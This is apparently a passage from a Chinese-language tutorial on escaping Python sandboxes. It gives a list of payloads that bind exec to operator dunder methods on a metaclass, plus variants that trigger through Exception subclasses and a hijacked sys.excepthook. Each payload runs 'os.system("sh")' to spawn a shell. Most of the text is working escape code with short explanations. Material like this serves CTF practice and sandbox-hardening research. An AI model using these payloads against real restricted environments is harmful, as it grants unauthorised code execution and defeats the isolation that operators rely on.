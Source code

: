 除了 `__getitem__` 之外其他方法的利用方式如下:

```py
__sub__ (k - 'import os; os.system("sh")')
__mul__ (k * 'import os; os.system("sh")')
__floordiv__ (k // 'import os; os.system("sh")')
__truediv__ (k / 'import os; os.system("sh")')
__mod__ (k % 'import os; os.system("sh")')
__pow__ (k**'import os; os.system("sh")')
__lt__ (k < 'import os; os.system("sh")')
__le__ (k <= 'import os; os.system("sh")')
__eq__ (k == 'import os; os.system("sh")')
__ne__ (k != 'import os; os.system("sh")')
__ge__ (k >= 'import os; os.system("sh")')
__gt__ (k > 'import os; os.system("sh")')
__iadd__ (k += 'import os; os.system("sh")')
__isub__ (k -= 'import os; os.system("sh")')
__imul__ (k *= 'import os; os.system("sh")')
__ifloordiv__ (k //= 'import os; os.system("sh")')
__idiv__ (k /= 'import os; os.system("sh")')
__itruediv__ (k /= 'import os; os.system("sh")') (Note that this only works when from __future__ import division is in effect.)
__imod__ (k %= 'import os; os.system("sh")')
__ipow__ (k **= 'import os; os.system("sh")')
__ilshift__ (k<<= 'import os; os.system("sh")')
__irshift__ (k >>= 'import os; os.system("sh")')
__iand__ (k = 'import os; os.system("sh")')
__ior__ (k |= 'import os; os.system("sh")')
__ixor__ (k ^= 'import os; os.system("sh")')
```
示例:
```py
class Metaclass(type):
    __sub__ = exec
    
class Sub(metaclass=Metaclass):
    pass

Sub-'import os; os.system("sh")'
```
##### exceptions 利用
利用 exceptions 的目的也是为了绕过显示地实例化一个类, 如果一个类继承了 Exception 类, 那么就可以通过 raise 关键字来实例化. payload 如下:
```py
class RCE(Exception):
    def __init__(self):
        self += 'import os; os.system("sh")'
    __iadd__ = exec 
    
raise RCE 
```
raise 会进入 RCE 的 `__init__`, 然后触发 `__iadd__` 也就是 exec.

当然, 触发异常不一定需要 raise, 主动地编写错误代码也可以触发,与是就有了如下的几种 payload.
```py
class X:
    def __init__(self, a, b, c):
        self += "os.system('sh')"
    __iadd__ = exec
sys.excepthook = X
1/0
```
这个 payload 中直接将 sys.excepthook 进行覆盖,任何异常产生时都会触发.
